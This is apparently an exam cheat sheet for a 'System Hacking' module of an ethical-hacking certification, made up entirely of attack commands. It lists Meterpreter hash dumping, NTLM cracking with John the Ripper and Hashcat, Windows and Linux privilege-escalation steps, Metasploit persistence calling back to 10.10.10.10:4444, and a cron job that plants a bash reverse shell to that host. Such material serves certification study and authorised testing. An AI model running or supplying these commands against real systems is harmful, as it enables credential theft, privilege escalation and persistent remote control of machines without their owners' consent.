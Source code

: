 ## Module 06: System Hacking

### 1. Password Cracking (Exam Weight: 30%)

**Windows Hash Extraction

```
meterpreter > hashdump
```

```
meterpreter > run post/windows/gather/smart_hashdump
```


**John the Ripper (NTLM)

```
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


**Hashcat (GPU Accelerated)

```
hashcat -m 1000 ntlm_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

### Privilege Escalation (Guaranteed Exam Task)

**Windows (Meterpreter)

```
meterpreter > getsystem
```

```
meterpreter > run post/multi/recon/local_exploit_suggester
```

**Linux (Manual)

```
find / -perm -4000 2>/dev/null  # SUID Binaries
```

```
sudo -l  # Check sudo permissions
```

### Maintaining Access

**Metasploit Persistence

```
meterpreter > run persistence -X -i 60 -p 4444 -r 10.10.10.10
```

**Cron Job Backdoor

```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'" > cronjob
```
